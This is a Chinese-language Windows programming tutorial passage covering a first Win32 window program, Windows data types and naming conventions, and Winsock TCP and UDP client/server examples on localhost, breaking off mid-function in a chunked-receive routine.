CONTENT OUTLINE Windows
〇、目录 学习windows编程 Windows编程基础知识 网络编程 网络编程进阶 网络编程实战 多线程 进程 文件操作 一 学习windows编程 1 windows编程是什么 2 为什么要学习windows编程 3 怎么学习windows编程 掌握理论【1 C++面向对象思想和多态性，2 Windows消息循环】msg loop 窗口 网络 系统：进程和线程 学会查询文档 收藏这个网址：https://docs.microsoft.com/zh-cn/* 【微软】【英文文档】 参考教材：孙鑫的《深入理解VC++》 参考 参考教材2：范文庆《Windows API 开发详解 函数、接口、编程实例》 4 环境安装和快捷键 4.1 环境安装 工作负载环境的安装：【工具：获取工具和功能 -> 使用C++的桌面开发】
4.2 VA安装及常用快捷键 VS2022已经不需要VA
常用快捷键
– ALT+G 调到定义
– ALT + SHIFT + F 查找所有引用
– ALT + 左箭头/右箭头 ：回退/前进
– 批量注释
二 Windows编程基础知识 2.1 完全手写第一个Win32窗口程序 创建新项目：windows桌面应用程序【此处使用空项目】
需要补充的点：
windows中的“实例”，是诸如窗口、鼠标、键盘等等，”句柄“可以理解为是实例的标记。 WinMain /wWinMain，是Windows的入口函数1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 #include <windows.h> #include <stdio.h> LPCTSTR clsName = "My" ; LPCTSTR msgName = "欢迎学习" ; LRESULT CALLBACK MyWinProc ( HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam ) int WINAPI WinMain ( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd ) WNDCLASS wndcls; wndcls.cbClsExtra = NULL ; wndcls.cbWndExtra = NULL ; wndcls.hbrBackground = (HBRUSH)GetStockObject (WHITE_BRUSH); wndcls.hCursor = LoadCursor (NULL , IDC_ARROW); wndcls.hIcon = LoadIcon (NULL , IDI_APPLICATION); wndcls.hInstance = hInstance; wndcls.lpfnWndProc = MyWinProc; wndcls.lpszClassName = clsName; wndcls.lpszMenuName = NULL ; wndcls.style = CS_HREDRAW | CS_VREDRAW; RegisterClass (&wndcls); HWND hwnd; hwnd = CreateWindow (clsName, msgName, WS_OVERLAPPEDWINDOW, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, NULL , NULL , hInstance, NULL ); ShowWindow (hwnd, SW_SHOWNORMAL); UpdateWindow (hwnd); MSG msg; while (GetMessage (&msg, NULL , NULL , NULL )) { } return msg.wParam; } LRESULT CALLBACK MyWinProc ( HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam ) int ret; HDC hdc; switch (uMsg) { case WM_CHAR: char szChar[20 ]; sprintf_s (szChar, "您刚按下了:%c" , wParam); MessageBox (hwnd, szChar, "char" , NULL ); break ; case WM_LBUTTONDOWN: MessageBox (hwnd, "检测到鼠标左键按下" , "L-msg" , NULL ); break ; case WM_PAINT: PAINTSTRUCT ps; hdc = BeginPaint (hwnd, &ps); TextOut (hdc, 0 , 0 , "重绘窗口！" , strlen ("重绘窗口！" )); EndPaint (hwnd, &ps); MessageBox (hwnd, "检测到重绘" , "msg-重绘" , NULL ); break ; case WM_CLOSE: ret = MessageBox (hwnd, "是否直接结束？" , "msg" , MB_YESNO); if (ret== IDYES) { DestroyWindow (hwnd); } break ; case WM_DESTROY: PostQuitMessage (0 ); break ; default : return DefWindowProc (hwnd, uMsg, wParam, lParam); } return 0 ; }
该程序运行出现功能缺失的问题，但无需过于关心。目前开发使用Qt、MFC。
📋程序骨架
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 int WinMain () RegisterClass (...) CreateWindow (...) ShowWindow (...) UpdateWindow (...) while (GetMessage (...)) { TranslateMessage (...); DispatchMessage (...); } }
2.1.1 链接错误 🔺出现链接错误：
解决：修改配置属性【链接器 | 所有选项 | 子系统：窗口】
2.1.2 LNK1104: 无法打开文件*.exe 解决方案一：打开任务管理器，关掉项目中的.exe文件，再重新生成解决方案； 解决方案二：修改你的项目文件夹的属性为非只读文件，打开项目文件夹【右击-属性-只读前面的方框取消】，再重新生成解决方案； 解决方案三：如果修改了代码后才出现了这样的问题，可能代码修改没有应用到程序内。解决：点击vs中的生成-配置管理器，勾选生成下面的√【win32改成x64】。 2.2 API与SDK Application Programming Interface 应用程序编程接口。
Software Development Kit 软件开发工具包，一般会包括API接口文档、示例文档、帮助文档、使用手册、相关工具等。
2.3 窗口与句柄/窗口类对象 窗口就是屏幕上的一片区域，接收用户的输入，显示程序的输出。可以包含标题栏，菜单栏，工具栏，控件等。

句柄handle 【资源的编号 | 二级指针 | 门把手】：窗口句柄，文件句柄，数据库连接句柄。
值得注意的是：C++窗口类对象与窗口并不是一回事。
它们之间惟一的关系是C++窗口类对象内部定义了一个窗口句柄变量，保存了与这个C++窗口类对象相关的那个窗口的句柄。窗口销毁时，与之对应的C++窗口类对象销毁与否，要看其生命周期是否结束。但C++窗口类对象销毁时，与之相关的窗口也将销毁。
生命周期 > 窗口类对象周期 > 窗口 窗口类内部定义了窗口句柄m_wnd 2.4 消息循环 银行场景

windows消息循环

2.5 Windows数据类型和命名规范 🔺Unicode是世界通用的字符编码标准，使用16位数据表示一个字符，一共可以表示65535种字符。
🔺ASNI字符集，使用8位数据或将相邻的两个8位的数据组合在一起表示特殊的语言字符。如果一个字节是负数，则将其后续的一个字节组合在一起表示一个字符。这种编码方式的字符集也称作多字节字符集 。
数据类型 含义 本质 DWORD 32位无符号整型数据 unsigned long DWORD32 32位无符号整型数据 unsigned int DWORD64 64位无符号整型数据 unsigned __int64 HANDLE 对象的句柄，最基本的句柄类型 void* HICON 图标的句柄 void* HINSTANCE 程序实例的句柄，32位无符号的长整形 unsigned long HKEY 注册表键的句柄 void* HMODULE 模块的句柄 HINSTANCE HWND 窗口的句柄 void* INT 32位符号整型数据类型 int INT_PTR 指向INT类型数据的指针类型 int INT32 32位符号整型 signed int INT64 64位符号整型 signed __int64 LONG32 32位符号整型 signed int LONG64 64位符号整型 __int64 LPARAM 消息的L参数 LONG_PTR: long WPARAM 消息的W参数 UINT_PTR: unsigned int LPCSTR Windows，ANSI，字符串常量【指针P const string】 char LPCTSTR 根据环境配置，如果定义了UNICODE宏，则是LPCWSTR类型，否则是LPCSTR类型 wchar_t/char LPCWSTR UNICODE字符串常量【const wchar string】 wchar_t LPDWORD 指向DWORD类型数据的指针 unsigned long LPSTR Window，ANSI，字符串变量【无W】 char LPTSTR 根据环境配置，如果定义了UNICODE，则是LPWSTR类型，否则是LPSTR类型 wchar_t/char LPWSTR UNICODE字符串变量【W】 wchar_t SIZE_T 表示内存大小，以字节为单位，其最大值是CPU最大寻址范围 unsigned long TCHAR 如果定义了UNICODE，则为WCHAR，否则为CHAR wchar_t/char WCHAR 16位Unicode字符 wchar_t
命名规范：
前缀 含义 前缀 含义 a 数组 array b 布尔值 bool by 无符号字符(字节) c 字符(字节) cb 字节计数 rgb 保存颜色值的长整型 cx,cy 短整型(计算x,y的长度) dw 无符号长整型 fn 函数 h 句柄 i 整形(integer) m_ 类的数据成员member n 短整型或整型 np 近指针 p 指针(pointer) l 长整型(long) lp 长指针 s 字符串string sz 以零结尾的字符串 tm 正文大小 w 无符号整型 x,y 无符号整型(表示x,y的坐标)
三 网络编程 3.1 网络编程基本概念 3.1.1 socket概念 套接字在英文里面就是“插孔/插座”的意思，套接字是网络数据传输用的软件设备。
创建一个套接字就相当于是安装了一部电话机。
3.1.2 什么是C/S模式 客户机/服务器模式在操作过程中采取主动请求的方式。
服务器端：
首先服务器先启动，并根据请求提供相应的服务： 打开一个通信通道，在某一地址和端口上接收请求。 等待客户请求到达该端口。 接收到重复服务请求，处理该请求并发送应答信号。 返回第二步，等待另一客户请求。 关闭服务器。 客户端：
打开一个通信通道，并连接到服务器所在主机的特定端口。 向服务器发服务请求，等待并接收应答；继续提出请求。 请求结束后关闭通信通道并终止。 3.1.3 什么是面向连接和面向消息【TCP/UDP】 面向连接的套接字TCP：
传输过程中数据不会丢失 按顺序传输数据 传输的过程中不存在数据边界【100个糖果分批传递，但接受者需要凑齐100个装袋】 面向消息的套接字UDP：
强调快速传输而非顺序 传输的数据可能丢失也可能损毁 限制每次传输数据的大小 传输的数据有数据边界 3.1.4 IP地址和端口 IP地址：是分配给用户上网使用的网际协议
常见的的IP地址分为IPv4与iPV6两大类，但是也有其他不常用的小分类 IP地址就好像街道地址【地址码】：有了某人的街道地址，你就能找到他并与他通信了。同样，有了某台主机的IP地址，你就能与这台主机通信了。 Port端口：为区分程序中创建的套接字而分配给套接字的序号。
如果把IP地址比作房子，端口就是出入房子的门。 真正的房子只有几个门，但端口可以有65536（即：2^16）个之多！0-1023一般被用作知名服务器的端口，被预定，如FTP、HTTP、SMTP WWW选择80，而FTP则以21为正常的联机信道 3.2 套接字类型与协议设置 SOCK_STREAM【流套接字】TCP：面向连接、可靠的数据传输 ，适合传输大量的数据，不支持广播、多播SOCK_DGRAM【数据包套接字】 UDP：无连接 支持广播、多播【报文】SOCK_RAW【原始套接字】：可以读写内核没有处理的IP数据报，避开TCP/IP处理机制，被传送的数据报可以被直接传送给需要它的的应用程序头文件与库：
引用头文件winsock2.h 导入ws2_32.lib库 window下socket编程都要首先进行Winsock的初始化 3.3 网络编程基本函数和基本数据结构 函数名称 功能描述 适用范围 socket 创建套接字 面向连接的传输+面向无连接的传输 bind 套接字与本地IP地址和端口号的绑定 面向连接的传输+面向无连接的传输 connect 请求连接 面向连接的传输的客户机进程 listen 侦听连接请求 面向连接的传输的服务器进程 accept 接收连接请求 面向连接的传输的服务器进程 send 往已建立连接的套接字上发送数据 面向连接的传输 recv 从已建立连接的套接字上接收数据 面向连接的传输 sendto 在无连接的套接字上发送数据 主要用于无连接的传输 recvfrom 在无连接的套接字上接收数据 主要用于无连接的传输 close 关闭套接字 面向连接的传输+面向无连接的传输
数据结构：
1 2 3 4 5 6 7 8 9 10 11 struct sockaddr { u_short sa_family; char sa_data[14 ]; }; struct sockaddr_in { short sin_family; u_short sin_port; struct in_addr sin_addr; char sin_zero[8 ]; };
3.4 基于TCP的服务端/客户端 VS技巧：在同一个解决方案中创建多个项目【解决方案右击菜单 -> 添加 】，可右击项目设置为启动项
注意：上面的方法创建的项目，生成解决方案后，会在总解决方案的Debug文件夹中生成可执行的exe文件
3.4.1 TCP套接字

📋服务端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 #include <stdio.h> #include <stdlib.h> #include <WinSock2.h> #pragma comment(lib,"ws2_32.lib" ) int main () printf ("TCP Server\n" ); WORD wVersionRequested; WSADATA wsaData; int err; wVersionRequested = MAKEWORD (1 , 1 ); err = WSAStartup (wVersionRequested, &wsaData); if (err != 0 ) { return err; } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } SOCKET sockServ = socket (AF_INET, SOCK_STREAM, 0 ); if (INVALID_SOCKET == sockServ) { printf ("Server socket errno: %d\n" , GetLastError ()); return -1 ; } SOCKADDR_IN addrServ, addrClient; int szAddrCnt = sizeof (addrClient); addrServ.sin_family = PF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (6000 ); if (SOCKET_ERROR == bind (sockServ, (sockaddr*)&addrServ, sizeof (addrServ))) { printf ("bind ERRORNO = %d\n" , GetLastError ()); return -1 ; } ; if (SOCKET_ERROR == listen (sockServ, 5 )) { printf ("listen ERRORNO = %d\n" , GetLastError ()); return -1 ; } while (true ) { printf ("Wait ACCEPT:\n" ); SOCKET sockCnt = accept (sockServ, (sockaddr*)&addrClient, &szAddrCnt); char sendBuf[100 ] = { 0 }; sprintf_s (sendBuf, 100 , "Welcome %s to Server!" ); int iLen = send (sockCnt, sendBuf, strlen (sendBuf), 0 ); char recvBuf[100 ] = { 0 }; iLen = recv (sockCnt, recvBuf, 100 , 0 ); printf ("recvBuf= %s\n" , recvBuf); closesocket (sockCnt); } closesocket (sockServ); system ("pause" ); return 0 ; }
注意：
报错LINK2019：即bind/accept等函数的外部库未导入【解决：#pragma comment(lib,"ws2_32.lib")】 第一步必须初始化网络库 GetLastErro()函数取得错误后，可使用【工具 | 查找错误】未初始化网络库时，报错10093【应用程序没有调用 WSAStartup，或者 WSAStartup 失败】【36行】 📋客户端【在统一解决方案下添加空项目】
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 #include <stdio.h> #include <stdlib.h> #include <WinSock2.h> #pragma comment(lib,"ws2_32.lib" ) int main () printf ("TCP Client\n" ); WORD wVersionRequested; WSADATA wsaData; int err; wVersionRequested = MAKEWORD (1 , 1 ); err = WSAStartup (wVersionRequested, &wsaData); if (err != 0 ) { return err; } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } SOCKET sockClient = socket (AF_INET, SOCK_STREAM, 0 ); if (INVALID_SOCKET == sockClient) { printf ("Server socket errno: %d\n" , GetLastError ()); return -1 ; } SOCKADDR_IN addrServ; int szAddrCnt = sizeof (addrServ); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrServ.sin_port = htons (6000 ); if (SOCKET_ERROR == connect (sockClient, (sockaddr*)&addrServ, sizeof (addrServ))) { printf ("connect ERRORNO = %d\n" , GetLastError ()); return -1 ; } char recvBuf[100 ] = { 0 }; int iLen = recv (sockClient, recvBuf, 100 , 0 ); printf ("recvBuf: %s\n" , recvBuf); char sendBuf[100 ] ="hhhhhh" ; iLen = send (sockClient, sendBuf, strlen (sendBuf), 0 ); closesocket (sockClient); WSACleanup (); system ("pause" ); return 0 ; }
注意：
从文件管理器打开服务器，设置客户端为启动项来调试客户端 🔺关于inet_addr的报错
1 2 错误 C4996 'inet_addr' : Use inet_pton () or InetPton () instead or define _WINSOCK_DEPRECATED_NO_WARNINGS to disable deprecated API warnings
解决办法： 【属性 | C++ | 预处理器：预处理器定义】在第一栏中添加_WINSOCK_DEPRECATED_NO_WARNINGS
3.4.2 UDP套接字

📋服务端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) int getCurrentTimeStr (char * strtime) void ErrorHandling (const char * message, int ERRNO) int main () printf ("UDP Server\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (1 , 1 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" , WSAGetLastError ()); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; SOCKET sockServ = socket (AF_INET, SOCK_DGRAM, 0 ); if (sockServ == INVALID_SOCKET) { ErrorHandling ("Server socket Error!" , WSAGetLastError ()); return -1 ; } SOCKADDR_IN addrServ, addrClient; memset (&addrServ, 0 , sizeof (addrServ)); memset (&addrClient, 0 , sizeof (addrClient)); int szAddrCnt = sizeof (addrClient); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (44444 ); int ret = bind (sockServ, (sockaddr*)&addrServ, sizeof (addrServ)); if (SOCKET_ERROR == ret) { ErrorHandling ("Bind ERROR" , WSAGetLastError ()); return -1 ; } char recvBuf[100 ] = { 0 }; char sendBuf[100 ] = { 0 }; while (true ) { printf ("Wait Message:\n" ); recvfrom (sockServ, recvBuf, sizeof (recvBuf), 0 , (sockaddr*)&addrClient, &szAddrCnt); std::cout << recvBuf << std::endl; sprintf_s (sendBuf, sizeof (sendBuf), "Ack: %s\n" , recvBuf); sendto (sockServ, sendBuf, strlen (sendBuf) + 1 , 0 , (sockaddr*)&addrClient, szAddrCnt); } closesocket (sockServ); system ("pause" ); return 0 ; } #pragma warning (disable:4996) int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message, int ERRNO) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("Error num = %d, Error time %s\n" , ERRNO, ch); system ("pause" ); exit (-1 ); }
UDP服务端一直bind错误：【错误原因】UDP端口被占用【具体调试方法见第九章】
📋 客户端
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 #include <stdio.h> #include <iostream> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) int UDPClient () void ErrorHandling (const char * message) int getCurrentTimeStr (char * strtime) int main () UDPClient (); system ("pause" ); return 0 ; } int UDPClient () printf ("UDP Client\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (2 , 2 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" ); } if (LOBYTE (wsaData.wVersion) != 2 || HIBYTE (wsaData.wVersion) != 2 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; SOCKET sock_cli = socket (AF_INET, SOCK_DGRAM, 0 ); if (sock_cli == INVALID_SOCKET) { ErrorHandling ("Server socket errno: %d\n" ); } getCurrentTimeStr (ch); printf ("begin connect %s\n" , ch); SOCKADDR_IN addrServ; int szAddrServ = sizeof (addrServ); memset (&addrServ, 0 , sizeof (addrServ)); addrServ.sin_family = AF_INET; addrServ.sin_addr.S_un.S_addr = inet_addr ("127.0.0.1" ); addrServ.sin_port = htons (44444 ); char recvBuf[100 ] = { 0 }; char sendBuf[100 ] = "Hello!" ; int strLen = sendto (sock_cli, sendBuf, strlen (sendBuf) + 1 , 0 , (sockaddr*)&addrServ, szAddrServ); printf ("After send %d\n" , strLen); int ret = recvfrom (sock_cli, recvBuf, sizeof (recvBuf), 0 , (sockaddr*)&addrServ, &szAddrServ); printf ("Message from server: ,ret = %d\n" , ret); std::cout << "recvBuf" << recvBuf << std::endl; if (strLen == -1 ) ErrorHandling ("read() error!" ); getCurrentTimeStr (ch); printf ("after recv %s\n" , ch); closesocket (sock_cli); WSACleanup (); system ("pause" ); return 0 ; } #pragma warning (disable:4996) int getCurrentTimeStr (char * strtime) time_t now = time (NULL ); tm* ltm = localtime (&now); sprintf (strtime, "%2d:%2d:%2d" , ltm->tm_hour, ltm->tm_min, ltm->tm_sec); return 0 ; } void ErrorHandling (const char * message) fputs (message, stderr); fputc ('\n' , stderr); char ch[64 ]; getCurrentTimeStr (ch); printf ("error num = %d, error time %s\n" , ::GetLastError (), ch); system ("pause" ); exit (-1 ); }
3.4.3 关于TCP和UDP的总结 UDP TCP 是否连接 无连接 面向连接 是否可靠 不可靠传输，不使用流量控制和拥塞控制 可靠传输，使用流量控制和拥塞控制 连接对象个数 支持一对一，一对多，多对一和多对多交互通信 只能是一对一通信 传输方式 面向报文 面向字节流 适用场景 适用于实时应用（IP电话、视频会议、直播等） 适用于要求可靠传输的应用，例如文件传输
四 网络编程进阶 4.1 listen的具体含义 监听listen(sock_serv, 5)表示同时监听的最大客户数为5，即执行到listen，但尚未执行到accept的队列【并非可服务的客户端数量，而是同时可建立连接的客户端数量，也就是说，该数值是考虑到操作系统的承受能力】。
4.2 一种更优雅的recv和send：超大数据的传输 📋基于3.4.1修改后的服务器：
新增MySocketRecv0 和 MySocketSend0 用于循环接受和发送 新增 ErrorHandling 统一处理错误提示 新增 getCurrentTimeStr 打印时间 简化了初始化网络库的代码 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 170 #include <stdio.h> #include <stdlib.h> #include <WinSock2.h> #include <time.h> #pragma comment(lib,"ws2_32.lib" ) #define MAX_ARRAYSIZE (1024*1024*10) char message[MAX_ARRAYSIZE];int MySocketRecv0 (int sock, char * buf, int dateSize) int MySocketSend0 (int socketNum, unsigned char * data, unsigned dataSize) int getCurrentTimeStr (char * strtime) void ErrorHandling (const char * message) int main () printf ("TCP Server\n" ); WSADATA wsaData; if (WSAStartup (MAKEWORD (1 , 1 ), &wsaData) != 0 ) { ErrorHandling ("WSAStartup() error!" ); } if (LOBYTE (wsaData.wVersion) != 1 || HIBYTE (wsaData.wVersion) != 1 ) { WSACleanup (); return -1 ; } char ch[64 ] = { 0 }; SOCKET sockServ = socket (AF_INET, SOCK_STREAM, 0 ); if (INVALID_SOCKET == sockServ) { ErrorHandling ("Server socket errno: %d\n" ); return -1 ; } SOCKADDR_IN addrServ, addrClient; int szAddrCnt = sizeof (addrClient); addrServ.sin_family = PF_INET; addrServ.sin_addr.S_un.S_addr = htonl (INADDR_ANY); addrServ.sin_port = htons (6000 ); if (SOCKET_ERROR == bind (sockServ, (sockaddr*)&addrServ, sizeof (addrServ))) { ErrorHandling ("bind ERRORNO = %d\n" ); return -1 ; } if (SOCKET_ERROR == listen (sockServ, 5 )) { ErrorHandling ("listen ERRORNO = %d\n" ); return -1 ; } while (true ) { printf ("Wait ACCEPT:\n" ); SOCKET sockCnt = accept (sockServ, (sockaddr*)&addrClient, &szAddrCnt); int ret = MySocketRecv0 (sockCnt, message, sizeof (message) - 1 ); printf ("Message from client: ,ret = %d\n" , ret); ret = MySocketSend0 (sockCnt, (unsigned char *)message, strlen (message)); printf ("Message to client: ,ret = %d\n\n" , ret); closesocket (sockCnt); } closesocket (sockServ); system ("pause" ); return 0 ; } int MySocketRecv0 (int sock, char * buf, int dataSize) int numsRecvSoFar = 0 ; int numsRemainingToRecv = dataSize; printf ("MySocketRecv0\n" ); while (1 ) { int bytesRead = recv (sock, buf + numsRecvSoFar, numsRemainingToRecv, 0 ); printf ("###bytesRead = %d,numsRecvSoFar = %d, numsRemainingToRecv = %d\n" , bytesRead, numsRecvSoFar, numsRemainingToRecv); if (bytesRead == numsRemainingToRecv) { return 0 ; } else if (bytesRead > 0 ) { numsRecvSoFar += bytesRead; numsRemainingToRecv -= 